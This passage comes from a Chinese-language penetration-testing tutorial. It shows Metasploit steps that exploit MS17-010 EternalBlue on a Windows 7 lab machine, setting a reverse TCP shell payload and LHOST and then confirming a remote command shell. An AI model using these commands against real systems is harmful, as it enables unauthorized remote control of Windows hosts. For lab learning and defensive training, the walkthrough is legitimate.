 ::: warning
payload 又称为攻击载荷，主要是用来建立目标机与攻击机稳定连接的，可返回 shell，也可以进行程序注入等。
:::

::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320785.webp)
:::

**（12）设置使用的payload，查看payload所需要的参数**

```shell
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
 
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320824.webp)
:::

**（13）设置payload的反弹地址**

```shell
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.2.16
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320849.png)
:::

**（14）检查参数有无问题，** 没有问题直接run

::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320891.webp)
:::

**（15）攻击成功，显示出windows命令行**
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320888.webp)
:::

::: warning
若停在上图WIN字符区域，不是没有攻击成功，仅需按下回车即可
:::

### 3.测试攻击是否成功

**（1）在kali端尝试查看当前Windows 7用户**
::: center
![img](https://pic1.zhimg.com/80/v2-0978d163a10da7c256775bf1aa5a64fc_720w.webp)
:::

发现显示乱码，解决办法在命令行输入`chcp 65001`即可，再次查看

::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320998.webp)
:::
